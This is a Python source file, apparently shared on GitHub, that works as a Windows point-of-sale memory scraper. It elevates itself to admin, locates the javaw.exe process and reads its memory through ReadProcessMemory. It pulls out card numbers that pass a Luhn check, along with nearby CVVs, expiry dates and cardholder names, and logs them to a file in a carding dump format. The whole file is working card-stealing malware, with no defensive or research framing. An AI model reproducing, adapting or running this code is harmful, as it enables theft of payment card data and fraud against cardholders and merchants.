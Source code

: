 import ctypes
import psutil
import re
import threading
from queue import Queue
import sys

# Constants for process access
PROCESS_VM_READ = 0x0010
PROCESS_QUERY_INFORMATION = 0x0400

# Queue for memory regions to scan (for threading)
memory_queue = Queue()

# Luhn's algorithm to validate credit card numbers
def validate_luhn(card_number):
    total = 0
    reverse_digits = card_number[::-1]
    for i, digit in enumerate(reverse_digits):
        n = int(digit)
        if i % 2 == 1:
            n *= 2
            if n > 9:
                n -= 9
        total += n
    return total % 10 == 0

# Expanded regex patterns
cc_regex = re.compile(r'(\b(?:\d[ -]*?){13,19}\b)')  # Credit card number
cvv_regex = re.compile(r'\b\d{3,4}\b')  # CVV code (3 or 4 digits)
expiry_regex = re.compile(r'\b(0[1-9]|1[0-2])/(?:[0-9]{2}|[0-9]{4})\b')  # Expiry date MM/YY or MM/YYYY
name_regex = re.compile(r'\b[A-Z][a-z]+ [A-Z][a-z]+\b')  # Simple name pattern (First Last)

# Log file
log_file = "log.txt"

# Scan a buffer for potential credit card data
def scan_memory_chunk(memory_chunk):
    results = []

    card_matches = cc_regex.findall(memory_chunk)
    for card_match in card_matches:
        sanitized_card = re.sub(r'[^\d]', '', card_match)  # Remove non-numeric characters

        if validate_luhn(sanitized_card):
            # Try to find associated CVV, expiry date, and name near the card
            match_index = memory_chunk.find(card_match)
            surrounding_text = memory_chunk[max(0, match_index - 100): match_index + 300]

            # Find possible CVV, expiry date, and name nearby
            cvv_match = cvv_regex.search(surrounding_text)
            expiry_match = expiry_regex.search(surrounding_text)
            name_match = name_regex.search(surrounding_text)

            card_info = {
                'Card Number': sanitized_card,
                'CVV': cvv_match.group(0) if cvv_match else 'Not Found',
                'Expiry Date': expiry_match.group(0) if expiry_match else 'Not Found',
                'Name': name_match.group(0) if name_match else 'Not Found'
            }
            results.append(card_info)

    return results

# Worker thread that processes memory chunks
def memory_scan_worker(process_handle):
    while not memory_queue.empty():
        base_addr, size = memory_queue.get()
        try:
            buffer = ctypes.create_string_buffer(size)
            bytesRead = ctypes.c_size_t(0)
            if ctypes.windll.kernel32.ReadProcessMemory(process_handle, ctypes.c_void_p(base_addr), buffer, size, ctypes.byref(bytesRead)):
                valid_cards = scan_memory_chunk(buffer.raw.decode('latin-1'))
                if valid_cards:
                    for card in valid_cards:
                        # Format the output as requested
                        formatted_output = f"{card['Card Number']}:{card['Name']}:{card['CVV']}:{card['Expiry Date']}"
                        print(formatted_output)
                        
                        # Log to file
                        with open(log_file, 'a') as f:
                            f.write(formatted_output + '\n')
        except Exception as e:
            print(f"Error reading memory at {base_addr}: {e}")
        finally:
            memory_queue.task_done()

# Define the MEMORY_BASIC_INFORMATION structure
class MEMORY_BASIC_INFORMATION(ctypes.Structure):
    _fields_ = [
        ("BaseAddress", ctypes.c_void_p),
        ("AllocationBase", ctypes.c_void_p),
        ("AllocationProtect", ctypes.c_ulong),
        ("RegionSize", ctypes.c_size_t),
        ("State", ctypes.c_ulong),
        ("Protect", ctypes.c_ulong),
        ("Type", ctypes.c_ulong)
    ]

# Get memory regions to scan (only committed, readable regions)
def get_memory_regions(pid):
    process = psutil.Process(pid)
    with process.oneshot():
        handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)
        if not handle:
            raise Exception(f"Failed to open process {pid}")

        memory_regions = []
        address = 0
        mbi = MEMORY_BASIC_INFORMATION()

        while ctypes.windll.kernel32.VirtualQueryEx(handle, ctypes.c_void_p(address), ctypes.byref(mbi), ctypes.sizeof(mbi)):
            if mbi.State == 0x1000 and mbi.Protect == 0x04:  # MEM_COMMIT and PAGE_READWRITE
                memory_regions.append((mbi.BaseAddress, mbi.RegionSize))
            address += mbi.RegionSize

        ctypes.windll.kernel32.CloseHandle(handle)
        return memory_regions

# Main function to scan memory of target process
def scan_process_memory(pid, num_threads=4):
    memory_regions = get_memory_regions(pid)
    if not memory_regions:
        print(f"No valid memory regions found for PID {pid}")
        return

    for region in memory_regions:
        memory_queue.put(region)

    process_handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)

    threads = []
    for _ in range(num_threads):
        t = threading.Thread(target=memory_scan_worker, args=(process_handle,))
        t.start()
        threads.append(t)

    memory_queue.join()

    for t in threads:
        t.join()
    ctypes.windll.kernel32.CloseHandle(process_handle)

def is_admin():
    try:
        return ctypes.windll.shell32.IsUserAnAdmin()
    except:
        return False

if __name__ == "__main__":
    if not is_admin():
        print("Attempting to restart with admin privileges...")
        ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, " ".join(sys.argv), None, 1)
        sys.exit(0)

    for proc in psutil.process_iter(['pid', 'name']):
        if proc.info['name'] == 'javaw.exe':
            target_pid = proc.info['pid']
            print(f"Found javaw.exe with PID {target_pid}")
            scan_process_memory(target_pid)
            break
    else:
        print("javaw.exe not found!")
